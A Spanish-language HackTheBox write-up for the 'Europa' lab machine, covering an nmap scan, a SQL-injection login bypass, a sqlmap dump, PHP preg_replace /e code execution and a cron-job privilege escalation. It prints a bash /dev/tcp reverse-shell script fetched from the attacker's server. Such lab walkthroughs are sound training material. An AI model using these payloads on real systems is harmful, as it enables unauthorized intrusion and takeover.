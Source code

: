 ```yaml
---
title: HackTheBox - Europa
author: Watskip
date: 2020-10-26 19:55:00 -0400
categories: [Nix]
tags: [SQLi, Regex, Misconfiguration]
pin: false
---
```


![europa](https://user-images.githubusercontent.com/25357279/97245246-01290000-17d1-11eb-9732-c56d6776c61d.png)

Europa nos muestra un bypass simple de un login, abusamos un pattern de regex en php para obtener RCE y luego empleamos un cronjob para escalar nuestros privilegios.
Nuestro escaneo inicial nos muestra 3 puertos: 22, 80, 443.

```jsx
# Nmap 7.80 scan initiated Sat Oct 17 10:42:59 2020 as: nmap -sC -sV 10.10.10.22
Nmap scan report for 10.10.10.22
Host is up, received echo-reply ttl 63 (1.6s latency).
Scanned at 2020-10-17 10:42:59 -04 for 24s

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCh1/OK73CDKnJigk6uMUzDLSQhCHSpt9xL+SJrizWdCa7edGviU3NU/8So5xOOgzV1k8u3qHsudNnTSiH8Ek9d2c48B3xYHZn5+nPDv22fZ82LIRKd5qSLhthk91bL3uV+/CURpOZshvo0bVPS48UQaw5r7pWTE0goB+qyG2csY7hr3+9C7Sx4L/Vx7MOFuGAoy/EnpHG10f12ZJ6IVrX8mMEyZGb3Bh7crRN8tQ2RAvnJxyj+1ZeDo7Vr2F75r//dEL2iQ4S2Iuz8BocjQMREyIguIOSOJxjc/L52TpioRHnNK/aEArT02uakB4jRyd5LTSsijjitgUlAk/3H2cYd
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEqrLpdz7aDIUDy3bslqFlbGCrL4Q6tQmesbTP73F/Rv0GO6bb3zHETnZwVB5AKes/pQdRrbDlQCtR2v2WsTXsw=
|   256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDE2hVC32u7eNINSvsmSQkbMlUkJ7s0oiG/bxPhwZb/b
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=admin@europacorp.htb/localityName=Athens/organizationalUnitName=IT
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=admin@europacorp.htb/localityName=Athens/organizationalUnitName=IT
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
| SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
| -----BEGIN CERTIFICATE-----
| MIIFSDCCA7CgAwIBAgIJAPGhMP4FtiTCMA0GCSqGSIb3DQEBCwUAMIGUMQswCQYD
| VQQGEwJHUjEPMA0GA1UECAwGQXR0aWNhMQ8wDQYDVQQHDAZBdGhlbnMxGDAWBgNV
| BAoMD0V1cm9wYUNvcnAgTHRkLjELMAkGA1UECwwCSVQxFzAVBgNVBAMMDmV1cm9w
| YWNvcnAuaHRiMSMwIQYJKoZIhvcNAQkBFhRhZG1pbkBldXJvcGFjb3JwLmh0YjAe
| Fw0xNzA0MTkwOTA2MjJaFw0yNzA0MTcwOTA2MjJaMIGUMQswCQYDVQQGEwJHUjEP
| MA0GA1UECAwGQXR0aWNhMQ8wDQYDVQQHDAZBdGhlbnMxGDAWBgNVBAoMD0V1cm9w
| YUNvcnAgTHRkLjELMAkGA1UECwwCSVQxFzAVBgNVBAMMDmV1cm9wYWNvcnAuaHRi
| MSMwIQYJKoZIhvcNAQkBFhRhZG1pbkBldXJvcGFjb3JwLmh0YjCCAaIwDQYJKoZI
| hvcNAQEBBQADggGPADCCAYoCggGBAKzVzRrrM1MSWnf8zniIPKt0SXGDB2msYUm3
| rQJ3j31wPfn9xJOWeIpBCIbtXkRqO3XGrLjG/M0Slp3sa/lQ+1dk8aupaudrJvCm
| ITzLnGvtzrtyDlPkozH2wqM+tJx351gKhfrdF81TItS8oe3yskPW3MvEDbi5lPQM
| OVZk4dhFT4l94E1zrRoapU9fqNL66BdEzeEdS6XwntdARBrEyEoCp7nFIGMBKSIn
| JzxIh2VS98ybxkw58QcDEG9ClDH49nglkKmQfAevGKil8f1f9NYRwW3YOCvuzAA7
| Osg+pLEp4de6MEf408+AOhxl4CvgZKYWvmu7b+OSrFDN8cHFy/bQ2fvrjXNazjA0
| 9FIj4wivJ7JgJOCdXEianNZkvLzqPXGS/dVUrFF5fzyG0z5xOTvABZp86fNa3yNu
| zLb04h3j04SvfJ+T3CzkZDWVsFvOYdKsce600S/iaUoqE7XQH6QPB54ba5ailVtH
| npmV1uVqVxT7tXAs0ztIDpqzJ0XAnwIDAQABo4GaMIGXMB0GA1UdDgQWBBSdw09g
| /iRsaKt8R137PRpTAfuTgTA6BgNVHREEMzAxghJ3d3cuZXVyb3BhY29ycC5odGKC
| G2FkbWluLXBvcnRhbC5ldXJvcGFjb3JwLmh0YjAfBgNVHSMEGDAWgBSdw09g/iRs
| aKt8R137PRpTAfuTgTAMBgNVHRMEBTADAQH/MAsGA1UdDwQEAwIFoDANBgkqhkiG
| 9w0BAQsFAAOCAYEAbv2ccFD/d2ovr3dkIqL1m2Qo3AgMObUaBczB37KDsB0w6lzf
| EOM/aBVth8LarblnVUJE0tk8Io7VBcTP9hF2nt3BuSM0mF6yMY3WRY+23JJpNxSO
| nOrZ1xLB7a6XTwSTWD0kg2bRbjSbiEWaUzY/RrqtCF1NThgyXo0wuMWPpPICmbd/
| 5ID8iOH+rmR3nR4fP80J38SUmvrsXAmifbsbKaKHspNMclQ2Idfiyv53xAoFrJzV
| cuxHKyBxYn8A5DPRIhbesLF2NAy0d4aziNeVgGQnSA9cV9RhN454nuzwqKb33BlF
| L8cpG59w3xR8RuyTyZql4uBPZtogzh0pc0PyxX2E2O5nbn85aqYDkVW7aUkeiU69
| LAiIp8s6Z+Rhe2rN4RAudtMcWaMTwjBOb1k1UrJ+0T7Av3O5nJk5kd/Ee5LUD2jX
| wE9Q72WLg1HP/PSSJPsNASSAW4OWSYG1CqLIhfRk5wJtfi6oR9VO+CpajWvqB0Ej
| PTXIrDgdEK1VKan9
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 17 10:43:23 2020 -- 1 IP address (1 host up) scanned in 24.84 seconds
```

El resultado nos muestra 2 entradas interesantes `www.europacorp.htb` y `admin-portal.europacorp.htb`. Procedemos a añadir ambas  en `/etc/hosts`

Cuando intentamos acceder a estos hosts mediante el puerto 80 nos tocamos con la página por defecto de apache. Entonces intentamos acceder al puerto 443 y nos encontramos con un login al momento de acceder el subdominio de `admin-portal`

![login](https://user-images.githubusercontent.com/25357279/97241900-cb801900-17c8-11eb-951b-d88bdceffe8b.png)

## Obteniendo RCE

Podemos probar rápidamente si hay SQLi con varios payloads y combinaciones de credenciales. Como nos pide un correo en vez de simplemente un usuario, por eso intentamos darle con `admin@europacorp.htb`  y vemos que comentando el resto del query colocando lo siguiente como email`admin@europacorp.htb' #`   podemos hacer bypass del login

También podemos intentar con SQLmap para confirmar posibles casos de inyección (cosa que ya hemos hecho manualmente) y dumpear el resto de la base de datos. Esto lo hacemos con el siguiente comando:

```bash
sqlmap -u [https://admin-portal.europacorp.htb/login.php](https://admin-portal.europacorp.htb/login.php) --form --batch --dump
```

Luego de correr sqlmap para asistirnos en la inyección obtenemos la siguiente información de la base de datos.
![creds](https://user-images.githubusercontent.com/25357279/97245113-b3ac9300-17d0-11eb-835d-8147f9e55609.png)

Una vez obtenemos los hashes observamos que son idénticos y que contienen 32 caracteres de longitud. Procedemos a verificarlos en [hashes.com](http://hashes.com) para confirmar si obtenemos su resultado en texto plano. Y obtenemos un resultado válido.

![hashes](https://user-images.githubusercontent.com/25357279/97241946-eb174180-17c8-11eb-9340-9f4e3f4f8e47.png)

Estas credenciales quizá nos sirvan para ser usadas una vez tengamos ejecución de comandos de manera arbitratia en la máquina, pero por ahora procedemos a examinar el site.

![dashboard](https://user-images.githubusercontent.com/25357279/97245023-7a742300-17d0-11eb-9245-5730f5040fb4.png)

Si vamos a la opción de Tools nos encontramos con un generador de configuraciones de OpenVPN

![Burp](https://user-images.githubusercontent.com/25357279/97245319-2cabea80-17d1-11eb-8976-c52915951447.png)

En primera instancia pensé en obtener una reverse shell abusando la funcionalidad de OpenVPN mediante el parámetro up. Debajo está un artículo explicando cómo esto puede ser ejecutado.

[Reverse Shell from an OpenVPN Configuration File](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

Pero no funcionó con el propósito que esperaba. 

Luego de esto empecé a examinar los requests que se mandaban al site y a analizar la funcionalidad del generador. Vemos que remplaza lo que sea que le pasemos como parametro de IP dentro de la configuración y revisando uno de los requests que se han capturado vemos el parametro "pattern". 

Luego de googlear (literalmente) "php pattern exploit", encontramos [este site](http://www.madirish.net/402) que nos brinda la idea de usar  `/^(.*)/e` como pattern y  luego pasarle el string de `"system('CMD')"` . En este caso colocamos nuestro payload en el archivo `[reverse.sh](http://reverse.sh)` y lo servimos mediante el módulo de http.server en python `python3 -m http.server 80`

```bash
$ cat reverse.sh 
/bin/bash -c "/bin/bash -i >& /dev/tcp/{ip}/{port} 0>&1"
```

Interceptamos el request y añadimos nuestro payload para obtener el script `[reverse.sh](http://reverse.sh)` y ejecutarlo, recordando darle codificación de URL

![Burp](https://user-images.githubusercontent.com/25357279/97244667-ae9b1400-17cf-11eb-9fc3-bf2837fe02ed.png)


Revisamos nuestro listener y confirmamos que tenemos una reverse shell!

Procedemos a mejorarla solamente con `python3 -c 'import pty;pty.spawn("/bin/bash")'`
ya que la hemos capturado con `rlwrap`. A pesar de que somos www-data podemos leer la flag de user. Esta se encuentra en /home/john/user.txt.

## Consigamos ser root

Examinando los directorios del usuario www-data encontramos uno particular que nos llama la atención y a su vez un archivo muy particular.

![clearlogs](https://user-images.githubusercontent.com/25357279/97244665-aba02380-17cf-11eb-89f6-2d6c428ae82c.png)

Aquí vemos el contenido del archivo `clearlogs`

```bash
$ cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

Asumiendo por el nombre del directorio (cronjobs), hay una tarea programada a ejecutarse para limpiar los logs del site, pero a su vez este ejecuta un archivo llamado `[logcleared.sh](http://logcleared.sh)`.  Tenemos permiso de escritura en la ruta en el cual se encuentra el archivo por lo cual procedemos a colocar el siguiente payload para confirmar si podemos obtener una reverse shell como root .

Podemos usar el mismo `[reverse.sh](http://reverse.sh)` para obtener la shell como root. Solo tenemos que moverlo a la ruta y renombrarlo

```bash
$ mv reverse.sh logcleared.sh
```

Luego de unos minutos, revisamos nuestro listener y....

![pwned](https://user-images.githubusercontent.com/25357279/97244641-9c20da80-17cf-11eb-8138-af7366338852.png)

Somos root!